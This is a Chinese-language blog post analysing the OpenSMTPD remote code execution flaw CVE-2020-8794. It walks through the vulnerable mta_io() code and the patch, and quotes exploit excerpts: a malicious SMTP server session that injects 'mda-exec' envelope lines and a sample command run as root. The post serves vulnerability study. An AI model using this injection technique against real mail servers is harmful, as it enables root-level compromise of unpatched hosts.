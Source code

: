 ```yaml
---

layout: post

title: 'CVE-2020-8794 OpenSMTPD RCE 分析'

date: '2020-07-20'

header-img: "img/home-bg.jpg"

tags:
     - kernel cve analyze  
author: 'De4dCr0w'

---
```


<!-- more -->



## 环境搭建

系统：

Ubuntu 19.04 

之前一直出现问题，就是系统版本的问题，由于系统版本低，OpenSMTPD比较新，很多依赖不兼容，编译也一直报错，浪费很多时间。

安装依赖：

```
sudo apt install automake libevent-dev libtool bison openssl-dev
sudo apt install libasr-dev
sudo apt install libz-dev
```

下载OpenSMTPD：

```
git clone https://github.com/OpenSMTPD/OpenSMTPD.git
cd OpenSMTPD
git checkout -b 748ff6830cba54dd2f6b008dc3d97f2a3a429a2f
```

安装OpenSMTPD

```
./bootstrap  
./configure
make
sudo make install
```

### 影响版本

OpenSMTPD <= 6.6.4

## 漏洞分析

SMTP 客户端连接到服务端时，可以发送EHLO、MAIL FROM、RCPT TO之类的指令，服务端会回复单行或多行

第一行为三个数字+‘-’+字符串，如"250-ENHANCEDSTATUSCODES"

最后一行为三个数字+‘ ’+字符串，如"250 HELP"

客户端多行回复在mta_io() 函数中实现。

漏洞代码：smtpd/mta_session.c:1101:mta_io(struct io *io, int evt, void *arg)

```c
static void
mta_io(struct io *io, int evt, void *arg)
{
        struct mta_session      *s = arg;
        char                    *line, *msg, *p;
        size_t                   len;
        const char              *error;
        int                      cont;
        ……
        case IO_DATAIN:
            nextline:
                line = io_getline(s->io, &len);
                if (line == NULL) {
                        if (io_datalen(s->io) >= LINE_MAX) {
                                mta_error(s, "Input too long");
                                mta_free(s);
                        }
                        return;
                }

                log_trace(TRACE_MTA, "mta: %p: <<< %s", s, line);

                if ((error = parse_smtp_response(line, len, &msg, &cont))) {
                        mta_error(s, "Bad response: %s", error);
                        mta_free(s);
                        return;
                }
        ……
            if (cont) { //表示还要继续读取
                        if (s->replybuf[0] == '\0')
                                (void)strlcat(s->replybuf, line, sizeof s->replybuf);
                        else {
                                line = line + 4;
                                if (isdigit((int)*line) && *(line + 1) == '.' &&
                                    isdigit((int)*line+2) && *(line + 3) == '.' &&
                                    isdigit((int)*line+4) && isspace((int)*(line + 5)))
                                        (void)strlcat(s->replybuf, line+5, sizeof s->replybuf);
                                else
                                        (void)strlcat(s->replybuf, line, sizeof s->replybuf);
                        }
                        goto nextline; //通过goto实现循环读取回复的行数
                }

                /* last line of a reply, check if we're on a continuation to parse out status and ESC.
                 * if we overflow reply buffer or are not on continuation, log entire last line.
                 */
      【1】          if (s->replybuf[0] != '\0') { //处理最后一行回复，此时cont为0了，表示这是最后一行了。
                        p = line + 4;
                        if (isdigit((int)*p) && *(p + 1) == '.' &&
                            isdigit((int)*p+2) && *(p + 3) == '.' &&
                            isdigit((int)*p+4) && isspace((int)*(p + 5)))
                                p += 5;
       【2】                 if (strlcat(s->replybuf, p, sizeof s->replybuf) >= sizeof s->replybuf)
                                (void)strlcpy(s->replybuf, line, sizeof s->replybuf);
                }

```

漏洞成因：

正常‘\n’表示一行结束，但是如果输入"xyz\nstring\0"作为最后一行，则p指针指向‘string\0’，将string拼接在s->replybuf，在【2】处，通过p指针访问string其实就是越界读了，因为正常‘xyz\n’ 表示最后一行，已经结束了，string字符串是最后一行之后的数据。

由于iobuf_getline里只处理了字符串的第一个'\n'，并将其替换成‘\0’,所以传入的是"xyz\nstring\0"，则string中‘\n’就会保留，就能在envelop中注入新的一行。如果传入的是正常的"123 string\n"，则在string中的换行就会被替换‘\0’，那么拼接到replybuf中就是string中到第一个换行的部分数据，不能注入到envelop。

所以该漏洞利用的关键点在于最后一行的第四个字符要为‘\n’，这样string中‘\n’才能保留并拼接到replybuf中。

漏洞利用：

（1）将回复的三个数字码替换成‘4yz’或‘5yz’，replybuf的内容就会被写入envelop中的“errorline”中

（2）envelope是以 ”field: data\n“ 的形式保存，因为越界的string 可以包含'\n'，所以能在envelop中注入新的一行，对OpenSMTPD进行攻击。

**Exp分析**

```
static struct {
    const char * command;
    const char * user;
    const char * dispatcher;
    const char * maildir;
    char lines[512];
} inject = {
    .command = "X=`mktemp /tmp/x.XXXXXX`&&id>>$X;exit 0",
    .user = "root",
    .dispatcher = "local_mail",
    .maildir = NULL,
};
```

```
const int len = snprintf(inject.lines, sizeof(inject.lines), //要注入到envelop中的数据
            "type:mda\nmda-exec:%s\ndispatcher:%s\nmda-user:%s",
            inject.command, inject.dispatcher, inject.user);
```

```
static void
server_session(const char * const inject_lines)
{
    const char * const error_code =
        (exploit == SERVER_SIDE_EXPLOIT) ? "421" : "553";

    server_accept();
    server_send("220 ent.of.line ESMTP\n");

    server_recv("EHLO ");
    server_send("250 ent.of.line Hello\n");

    server_recv("MAIL FROM:<");
    if ((strncmp(server_command, "MAIL FROM:<>", 12) == 0) !=
        (exploit == SERVER_SIDE_EXPLOIT)) die();

    if (inject_lines != NULL) {
        if (inject_lines[0] == '\0') die();
        if (inject_lines[0] == '\n') die();
        if (inject_lines[strlen(inject_lines)-1] == '\n') die();

        server_send("%s-Error\n", error_code); //通过错误码进行注入，
        server_send("%s\n\n%s%c", error_code, inject_lines, (int)'\0'); 
        //第一个'\n'用于iobuf_getline中'\n'转换成'\0'，第二个'\n'用于另起一行。

    } else {
        server_send("%s Error\n", error_code);

        server_recv("RSET");
        server_send("250 Reset\n");

        server_recv("QUIT");
        server_send("221 Bye\n");
    }
    server_close();
}
```



### 补丁分析

![img](D:\github\De4dCr0w.github.io\image\2020-07-20-CVE-2020-8794-OpenSMTPD_RCE分析\1.png)

这里通过检测len的大小来避免越界读，因为len是通过iobuf_getline函数获得，表示遇到第一个'\r'或'\n'的长度。这样第四个字符为‘\n’ 时，长度为4，不能进入漏洞处。

### 参考链接

OpenSMTPD：

https://github.com/OpenSMTPD/OpenSMTPD

https://www.openwall.com/lists/oss-security/2020/02/26/1

https://cert.360.cn/warning/detail?id=5ed8d8cc121c223ac27d877f9e7b20b9

https://www.qualys.com/2020/02/24/cve-2020-8794/lpe-rce-opensmtpd-default-install.txt

https://www.qualys.com/2020/02/24/cve-2020-8794/lpe-rce-opensmtpd-default-install-exploit.c

https://www.freebuf.com/vuls/228494.html
